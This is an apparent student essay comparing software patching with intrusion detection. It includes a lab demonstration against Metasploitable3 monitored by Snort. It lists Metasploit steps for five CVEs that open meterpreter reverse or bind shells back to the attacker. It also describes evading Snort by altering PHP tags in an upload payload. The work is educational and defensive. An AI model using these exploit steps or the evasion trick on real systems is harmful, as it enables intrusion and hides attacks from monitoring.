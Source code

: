 **NOTE:** A markdown version with improved readability can be found at https://github.com/Mknsri/cybersecurity-base-project2/blob/master/essay.md. The repository also contains the snort.conf and any modified rules used in the examples, and the modified payload to avoid Snort detection.

Is it easier to fix the application than to detect attacks? We will look at the overview of both statements, and think about the pros and cons of each approach. We will also look at some example attack scenarios.


**Fixing the application in a perfect world would make more sense.**

After an exploit has been disclosed, the developer would publish a new version where the flaw is fixed, and anyone using the application would update it. However due to various reasons this does not happen often. For example the product is not being supported anymore so any patches are not being released or the flaw is not critical enough to take time away from developing features. Some companies even discourage sending vulnerability reports by trying to sue anyone who sends them information about security vulnerabilities in their application. This is a sure way to make anyone finding vulnerabilities to go looking for other sources to benefit from the information.
The third part of this problem are the users of the application. If they do not keep their software up-to-date, the vulnerability will not be fixed. This might be due to ignorance, or laziness to update the software. In some cases other pieces of software depend on each other, making it impossible to update without breaking some business solutions. This can often happen with large enterprises with multiple business-critical applications depending on each other and running for years. At some point even a minor but critical security update becomes too cumbersome to update. At this stage some companies will as a precaution wrap their systems' infrastructure using an Intrusion Detection System. Which brings us to the second statement. 


**Would it be easier to just detect attacks and deal with them as they come?**

Intrusion Detection Systems range from antivirus-software running on a home computer to complex company-wide monitoring and reporting systems that monitor all network and application activity within the company. Depending on the type of system they might do analysis on network traffic or check application signatures for known viruses. Some systems even track and monitor employee activity to report on threats like employees trying to access sensitive data or running potentially malicious software. Intrusion Detection Systems take pressure off keeping track of each piece of software being up-to-date, and even updated software is no guarantee that the systems they are running on are safe. IDS' are often standalone or packaged solutions which keep themselves up-to-date, with daily updates being able to detect the newest threats. They also offer a wide range of features, and can offer more general security to companies' networks, having overall-security instead of maintaining and fixing  exploits and keeping software updated. Since IDS' can also monitor and report suspicious network activity, they have more chance of discovering a sophisticated attacker, or someone gathering information over a long period of time. By tracking normal network activity over a period of time to establish a sort of baseline you can detect suspicious traffic. So why aren't IDS' the superior solution? Firstly, security software is still software. It has bugs, oversights and even security flaws attackers can exploit. They need to be kept updated like any other software. Relying too much on an IDS' is also a great way for any attackers to only have one obstacle to overcome. The attacker can focus all resources and research on the IDS itself, finding any methods to break or bypass it. They also fall victim to the same problems as any other application developer might face with updating software, as discussed earlier in the essay.

**Examples:**
The target system is MetaSploitable3 (https://github.com/rapid7/metasploitable3), which is designed to run intentionally vulnerable software. We install Snort (https://www.snort.org/) which is a network monitoring tool which can be used to run as an intrusion detection system. Then we use Kali (https://www.kali.org/), which is a version of Linux with multiple penetration testing tools used to detect and exploit vulnerabilities in software.

### Target machine:
+ MetaSploitable3 - Version commit https://github.com/rapid7/metasploitable3/commit/7f772162232d2a904be22588a0295742b3cd5d4e
+ Snort - Version 2.9.9.0, Rules "snortrules-snapshot-2976"
+ WinPCap - Version 4.1.1
+ Snort.conf - https://github.com/Mknsri/cybersecurity-base-project2/blob/master/working_snort.conf

### Attacker machine:
+ Kali - kali-linux-2016.2-amd64

### Legend used in reports:

+ `<REMOTEHOST>` IP address of the target
+ `<LOCALHOST>` IP address of the attacker
+ `<SNORTINTERFACE>` Network interface that Snort is listening.

To run Snort:
`snort.exe -c C:\Snort\etc\snort.conf -i <SNORTINTERFACE> -A console -k none`

## Attacks discovered by Snort IDS

### 1. CVE-2016-3087 - Apache Struts REST Plugin With Dynamic Method Invocation Remote Code Execution

    1. use exploit/multi/http/struts_dmi_rest_exec
    2. set RHOST <REMOTEHOST>
    3. set RPORT 8282
    4. set payload java/meterpreter/reverse_tcp
    5. set LHOST <LOCALHOST>
    6. run

### 2. CVE-2014-3120 - ElasticSearch Dynamic Script Arbitrary Java Execution
    1. use exploit/multi/elasticsearch/script_mvel_rce
    2. set RHOST <REMOTEHOST>
    3. set RPORT 9200
    4. set payload java/meterpreter/reverse_tcp
    5. set LHOST <LOCALHOST>
    6. run

### 3. CVE-2010-0219 - AXIS2 / SAP BusinessObjects Authenticated Code Execution (via SOAP)

    1. use exploit/multi/http/axis2_deployer
    2. set RHOST <REMOTEHOST>
    3. set RPORT 8282
    4. set payload java/meterpreter/reverse_tcp
    5. set LHOST <LOCALHOST>
    5. run

## Attacks not discovered by Snort IDS:

### 1. CVE-2015-2342 - Java JMX Server Insecure Configuration Java Code Execution

    1. use exploit/multi/misc/java_jmx_server
    2. set RHOST <REMOTEHOST>
    3. set RPORT 1617
    4. set payload java/meterpreter/reverse_tcp
    5. set LHOST <LOCALHOST>
    6. run
The reason this exploit was not discovered was that the rule monitoring the exploit was not enabled. In real life this sort of oversight is possible if the IDS software is configured incorrectly.

The following exploit is discovered by Snort, but by modifying the payload code we can easily bypass Snort detection, 
demonstrating how IDS systems can in some cases be made ineffective.
Note: If you get the following error when performing the exploit:
Exploit failed: NoMethodError undefined method '[]' for nil:nilClass
Make sure you have a version with this fix implemented:
https://github.com/rapid7/metasploit-framework/commit/f838c9990fa3a7858297ada47288cc67f04d87e4
The <PATHTOEXPLOIT> file can be found here https://github.com/Mknsri/cybersecurity-base-project2/blob/master/cve_2016-2019_undetected.php

### 2. CVE-2016-2019 - Wordpress Ninja Forms Unauthenticated file upload

    1. use exploit/unix/webapp/wp_ninja_forms_unauthenticated_file_upload
    2. set RHOST <REMOTEHOST>
    3. set RPORT 8585
    4. set TARGETURI /wordpress/
    5. set FORM_PATH /index.php/king-of-hearts/

    To alert Snort:
    6. set payload php/meterpreter/bind_tcp
    7. set LHOST <LOCALHOST>
    8. run

    To not alert Snort:
    6. set payload generic/custom
    7. set payloadfile <PATHTOEXPLOIT> (e.g /root/cve_2016-2019_undetected.php)
    8. run
Avoiding the alert was discovered by looking at the rules of the alert. It was monitoring malicious upload code by looking for `<?`-php tags. Replacing these tags in the payload was the only thing needed to avoid detection.

**Summary**

Looking at the examples, even with IDS some attacks can slip by undetected. So from a security standpoint, which would be the better solution? The best solution lies in using both. Having the latest version of software running on the systems is priority. An IDS should be deployed to monitor overall network activity and those reports should be used to identify the risks in the system. Relying on both options is the best way to minimize threat to systems, and giving attackers difficulty finding exploits without being detected is the best way to discourage them from trying to infiltrate your systems.